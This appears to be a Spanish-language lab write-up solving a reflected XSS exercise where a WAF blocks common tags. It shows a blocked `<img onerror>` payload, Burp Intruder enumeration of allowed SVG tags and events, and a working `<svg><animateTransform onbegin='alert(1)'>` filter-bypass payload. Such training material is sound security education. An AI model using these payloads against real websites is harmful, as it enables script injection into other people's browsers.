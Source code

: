 # Lab: Reflected XSS with some SVG markup allowed

This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the `alert()` function.

---

Intentamos inyectar un payload típico pero el WAF nos bloquea:
```html
<img src=1 onerror=alert(1)>
```
![image](https://github.com/user-attachments/assets/f90767f5-53f2-48fb-88fd-4fd7a54b04e9)

Realizamos un `Sniper Attack` con `Burpsuite Intruder` para averiguar qué etiquetas son permitidas por el WAF:
![image](https://github.com/user-attachments/assets/5ef5442b-df2c-4d8d-85f3-515c20729ed4)

![image](https://github.com/user-attachments/assets/5a72489f-0666-40ad-b393-78140b4a6381)

## 🌀 Análisis `<animateTransform>`

`<animateTransform>` es una etiqueta SVG que permite **animar transformaciones** en un elemento SVG, como:

- 🔄 **Rotar** (`rotate`)
- 🔍 **Escalar** (`scale`)
- 🧭 **Mover** (`translate`)
- 📐 **Inclinar** (`skewX`, `skewY`)

Se usa dentro de elementos SVG como `<rect>`, `<circle>`, `<g>`, etc., para crear efectos visuales dinámicos.

### 🧪 Ejemplo básico

```html
<svg>
  <rect width="100" height="100" fill="blue">
    <animateTransform 
      attributeName="transform"
      type="rotate"
      from="0 50 50"
      to="360 50 50"
      dur="5s"
      repeatCount="indefinite" />
  </rect>
</svg>
```
Hacemos un `Sniper Attack` para ver qué atributos podemos utilizar con `animateTransform`:
![image](https://github.com/user-attachments/assets/f8708389-255b-4f2d-b041-3a36f7f796fb)

![image](https://github.com/user-attachments/assets/2d586a17-9504-45c4-a5c1-e10a6964b462)

`onbegin` es un **evento SVG** que se dispara cuando una animación **comienza**. Es útil para ataques XSS porque permite ejecutar código JavaScript **automáticamente**, sin interacción del usuario.

Entonces probamos el siguiente payload:
```html
<svg><animateTransform onbegin='alert(1)'>
```
![image](https://github.com/user-attachments/assets/0020529e-e873-4cac-ba00-3ecfb19bae6f)
![image](https://github.com/user-attachments/assets/313438fd-30d4-4de4-9f9b-cac2b76d6dbe)



